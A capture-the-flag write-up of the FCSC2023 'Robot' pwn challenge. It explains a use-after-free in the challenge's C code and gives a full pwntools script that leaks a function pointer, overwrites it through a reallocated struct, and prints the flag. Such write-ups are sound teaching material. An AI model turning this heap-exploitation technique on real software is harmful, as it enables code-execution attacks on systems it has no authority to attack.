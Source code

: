 ```yaml
---
title: CTFs | FCSC2023 | Robot
author: Kaiba_404
date: 2023-05-01
categories: [CTFs, FCSC2023, Robot]
tags: [CTF, FCSC2023, pwn]
permalink: /CTFs/FCSC2023/pwn/Robot
---
```


# Robot

![image]()

The challenge give us two file: a source code and an binary file

- [robot](files/robot)
- [robot.c](files/robot.c)

The challenge tell us that this binary is protected by all classical protections like ASLR, W^X,...

<p align="center">
  <img src="img/binary_protection.png" />
</p>

I decided to read the source code to find exploitable vulnerabilities. While analyzing the source code, I found a fascinating function called the 'admin', which is shown below. 

```c

void admin(char *pwd)
{
    unsigned char hash[SHA256_DIGEST_LENGTH];
    char    result[65];

    SHA256((const unsigned char *) pwd, strlen(pwd), hash);

    for (int i = 0; i < SHA256_DIGEST_LENGTH; i++) {
        sprintf(result + (i * 2), "%02x", hash[i]);
    }

    if (strcmp(result, encrypted) == 0) {
        execl("/bin/cat", "/bin/cat", "flag.txt", NULL);
        perror("execl");
        exit(2);
    } else {
        puts("ERROR: wrong password!");
    }
}

```


The 'admin' function is responsible for reading the flag. However, we need the admin's password to obtain the flag, which we don't have (of course!). As an alternative, we can attempt to directly jump into the code at the address of `execl("/bin/cat", "/bin/cat", "flag.txt", NULL);`. However, this is not a straightforward task. According to the source code, the program is protected against buffer overflow and string formatting vulnerabilities. All inputs are rigorously checked, and the print statements are flawlessly formatted to prevent any potential exploitation.

However, it seems that the programmer for this robot forgot something. Consider the robot's functions. Their code was normal until I noticed something weird

```c
case '3':
    if (robot) {
        printf ("Vous allumez le robot. ");
        robot->move(robot);
        printf ("De la fumée commence à apparaître, puis des étincelles... %s prend feu !!!\n", robot->name);
        printf ("%s est complètement détruit\n", robot->name);
        free (robot);
    } else {
        puts ("Vous n'avez pas de robot !");
    }
    break;
```

Calling `free(robot)` without setting `robot=NULL` creates a vulnerability that can be exploited using a ***Use-After-Free (UAF)*** attack. To take advantage of this critical vulnerability, we will examine the structure of the robot and search for a way to exploit it.

```c
struct Robot {
    char name[16];
    void (*makeNoise)();
    void (*move)();
};

struct RobotUserGuide {
    char guide[32];
};

```

We can assume that the size of the robot struct is `16+8+8 = 32`, since the two function pointers always have a size of 8. Additionally, the struct RobotUserGuide has a size of 32 (perhaps this is a hint?). Continuing to examine the source code, I noticed that the struct `RobotUserGuide` is invoked in the following section:

```c
case '4':
    userGuide = malloc (sizeof (struct RobotUserGuide));
    printf ("Vous commencez à rédiger le mode d'emploi...\n> ");
    fgets (userGuide->guide, 32, stdin);
    break;
```

Voila, we can modify the parameters of struct robot through using struct RobotUserGuide. I proceed to test my conjecture:

<p align="center">
  <img src="img/find_the_vuln.png" />
</p>

There are some weird characters appear when i type 5 and enter. These are the pointers to the functions as I analyzed above. At this point I conclude that this binary can be exploited because the programmer did not assign `robot=NULL` after free it.


## Exploitation

To exploit the vulnerability, we can follow these steps:
1. Create a robot with any name.
2. Play with the robot to call the free function on the robot.
3. Create a userGuide with a character length less than 16, which ensures that the address of the bleep function is not overwritten.
4. Request the program to display the userGuide screen, and obtain the address of the bleep function. This address will enable us to find the command to read the flag.
5. After obtaining the address of the `bleep` function, we can continue interacting with the robot and repeatedly call the free function. This will help the function pointer to eventually point to the address where we want the next action.
6.  Next, we can attempt to overwrite the 17-24th byte in the userGuide (which is pointed to by the function pointer of the robot struct) with the address of `execl("/bin/cat", "/bin/cat", "flag.txt", NULL);`
7.  Finally, by using the `le faire paler`, we can trigger the exploit and obtain the flag.

Here is my full exploit code:


```python
from pwn import *

# p = process("./robot")
p=remote("challenges.france-cybersecurity-challenge.fr",2101)

msg = p.recvuntil(b'Quitter')

p.sendline(b'1')
msg = p.recvuntil(b'l\'appelez ?')

p.sendline(b'qwerty')
msg = p.recvuntil(b'Quitter')

p.sendline(b'3')
msg = p.recvuntil(b'Quitter')



p.sendline(b'4')
msg = p.recvuntil(b'le mode d\'emploi...')
p.sendline(b'0123456789')

p.sendline(b'5')

msg = p.recvuntil(b'Quitter')
msg = p.recvuntil(b'Que faites-vous ?')
print(msg)
p.recv()
leak_code = msg[19:35]
bleep_p64 = msg[19:27]
bleep_u64 = u64(bleep_p64)
log.success(f'[LEAK] {hex(bleep_u64)}')
cat_addr = bleep_u64 + 0x1f3
print(hex(cat_addr))
p.sendline(b'3')
new_msg = p.recvuntil(b'Quitter')


p.sendline(b'4')
msg = p.recvuntil(b'le mode d\'emploi...')
p.sendline(b'A'*16+p64(cat_addr))


p.sendline(b'5')

newmsg = p.recvuntil(b'Quitter')
newmsg = p.recvuntil(b'Que faites-vous ?')


p.sendline(b'2')
# @admin- @bleep = 14e
# read_pass - @bleep = 1f3
p.interactive()

```

Result:

<p align="center">
  <img src="img/robot_writeup.png" />
</p>

FLAG: `FCSC{136e057aa66dd6d6b772cae51260121f65973ff2045ec812ad597c9060a6a18d}`